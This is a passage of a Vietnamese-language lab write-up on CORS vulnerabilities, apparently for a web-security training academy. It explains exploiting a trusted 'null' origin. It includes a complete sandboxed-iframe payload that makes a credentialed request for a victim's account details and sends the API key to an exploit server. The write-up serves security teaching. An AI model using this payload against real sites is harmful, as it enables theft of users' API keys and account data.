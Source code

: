 Gửi cho victim để, vào `Access log` để lấy `API key`

![Untitled](writeup_media/Untitled%204.png)

Submit để hoàn thành lab

---

### **CORS vulnerability with trusted null origin**

Nhật thấy hầu hết các origin đều không được chấp nhận, ngoại trừ `null`

![Untitled](writeup_media/Untitled%205.png)

![Untitled](writeup_media/Untitled%206.png)

Dùng `iframe` `sandbox` để gửi một request có header `Origin: null`

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = 'json';
    req.open('get', 'https://0ae2007203e6838fc0594a3700ca00a5.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a9600fd03b88360c00e4a4d013f0089.web-security-academy.net/exploit?APIkey=' + req.response.apikey;
    };
</script>"></iframe>
```
